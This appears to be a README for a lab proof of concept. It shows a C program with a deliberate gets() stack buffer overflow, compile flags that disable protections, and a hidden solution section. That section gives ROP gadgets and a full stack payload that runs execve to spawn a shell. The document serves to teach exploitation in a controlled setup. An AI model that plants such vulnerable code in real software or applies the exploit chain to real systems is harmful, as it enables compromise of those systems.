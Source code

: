 # Stack Overflow using the gets() function
<p align="justify">
The main idea of this proof of concept is to show how something that may seem so harmless can result in taking full controll of the program flow. An insecure function like gets() opens the door to a Stack Buffer Overflow attack.
</p>

## Code and Compilation
Program's code is the following:
```
#include <stdio.h>

void vuln(){
   char buffer[32];
   gets(buffer);
}

int main(){
   puts("Inicio");
   vuln();
   return 0;
}
```
<p align="justify">
In order to make the attack replicable, we have to add certain flags when compiling. We are going to use the cross-compiler that generates full i386 code. Its setup is explained at the <a href ="https://github.com/miguelgonpam/VM-i386-32bit">root's README.md</a>
</p>

We must use the following flags:
```
./gcc-i386 -o program program.c -fomit-frame-pointer -fno-stack-protection -no-pie -static
```
`-no-pie` and `-static` were explained on the <a href ="https://github.com/miguelgonpam/VM-i386-32bit">root's README.md</a> but there are new ones:
- `-fomit-frame-pointer` avoids pushing old frame pointer and creating a new one at the beggining of every function and the same at the end (destroying frame and popping old one).
- `-fno-stack-protector` avoids compiling with the [SSP](https://en.wikipedia.org/wiki/Buffer_overflow_protection) technique, so the overflow can be performed.

## Vulnerability
<p align="justify">
This programs contains a Stack Buffer Overflow (<a href="https://cwe.mitre.org/data/definitions/121.html">CWE-121</a>), that allows to write on the buffer (which is a local variable so it resides on the stack) beyond the expected size. Writing further than the compiler expects, results in the ability of overwriting the return address value and pretty much all the values on the stack that we want.
Then we can choose which addresses we want to replace or overwrite, so we can jump to any instruction we want (or either our own instructions on the stack if NX is off). This technique is called <a href="https://en.wikipedia.org/wiki/Return-to-libc_attack">Ret2Libc</a>.
The ending of pretty much all the functions contains some POP instructions and then the RET. We control which values are allocated on the stack so we also can controll the values in the registers.
</p>

We must use a disassembly tool like `objdump` to see which instructions or addresses could be interesting jumping to. 

Once that we have all the instructions needed, we fill the stack with their addresses, and wait for the fun to begin.

## Objective
Our goal is to perform a syscall. We are going to execute an execve that is going to give us a shell. 
Before that, we need to load onto the EAX register the execve syscall number (11). And then we have to load on the rest of registers the arguments to perform such syscall.
According to `man 2 execve` it expects 3 arguments:
```
 int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```
At first it is a little difficult to understand:
- First argument must be a pointer to a String, cointaining the pathname of the file to execute.
- Second argument must be a pointer to string pointers array, containing the arguments.
- Third argument must be a pointer to string pointers, containing the environment variables.

An useful execve would be (replacing `/dev/pts/0` with the result of executing `tty` command on our terminal):
```
execve("/bin/bash", ["/bin/bash", "-c", " < /dev/pts/0"], [])
```





## Exploitation
<details>
  <summary>Click here to see the solution</summary>



  We have found the following utils. (Addresses can change if the program is compiled again)

  A "POP eax" can be difficult to find, so we are going to use this. Moves into the EAX the next value at the top of the stack value.
```
 80489a1:       8b 44 24 04             mov    eax,DWORD PTR [esp+0x4]
 80489a5:       c3                      ret
```
  Then, we have to load the rest of registers. We are going to use this:
```
 8048d8f:       8b 54 24 24             mov    edx,DWORD PTR [esp+0x24]
 8048d93:       8b 4c 24 28             mov    ecx,DWORD PTR [esp+0x28]
 8048d97:       8d 74 24 08             lea    esi,[esp+0x8]
 8048d9b:       8b 5c 24 20             mov    ebx,DWORD PTR [esp+0x20]
 8048d9f:       8b 7c 24 2c             mov    edi,DWORD PTR [esp+0x2c]
 8048da3:       65 ff 15 10 00 00 00    call   DWORD PTR gs:0x10
```
This loads all the registers with values from the stack. We control the stack so we can get the registers to have the values we want. Even though ESI and EDI are affected, we are interested only in EBX, ECX and EDX.
Also, `CALL gs:0x10` calls to `INT 0x80`, which performs the syscall, we have the full set now.

Now that we have the utils, we must execute the program with the emulator (use interface mode) and see where the buffer begins (If you type AAAA at the beginning of the buffer, it will result on `0x41414141` on the stack), and thats the buffer start.
Buffer grows to greater addresses, so we must spot where is the return address is. They usualy are `0x804xxxxx`. Thats where our first util must be, so create a payload that has padding until it reaches that address, and then just chain the utils.

The payload should make the stack look something like this:
```
LOWER ADDRESSES

0x6e69622f #buffer start "/bin"
0x7361622f #             "/bas"
0x632d0068 #             "h\0-c"
0x69622f00 #             "\0/bin"
0x61622f6e #             "n/ba"
0x3c206873 #             "sh <"
0x65642f20 #             " /de"
0x74702f76 #             "v/pt"
0x00302f73 #             "s/0\0"
0x00000000 # padding
0xa1890408 # mov    eax,DWORD PTR [esp+0x4]; ret
0x8f8d0408 # mov    edx,DWORD PTR [esp+0x24];......; ret
0x0b000000 # 11 (this value ends up in EAX so syscall is execve)
0x00000000 #                              (esp +0x4)
0x00000000 # value to mov into esi        (esp +0x8)
0xe0f0efff # execve argv[0]               (esp +0xc)
0xeaf0efff # argv[1]                      (esp +0x10)
0xedf0efff #                              (esp +0x14)
0x00000000 #                              (esp +0x18)
0x00000000 #                              (esp +0x1c)
0xe0f0efff # value to mov into ebx        (esp +0x20)
0x00000000 # value to mov into edx        (esp +0x24)
0x20f1efff # value to mov into ecx        (esp +0x28)
0x00000000 # value to mov into edi        (esp +0x2c)

HIGHER ADDRESSES
```

Full exploit available at `payload.py`

</details>
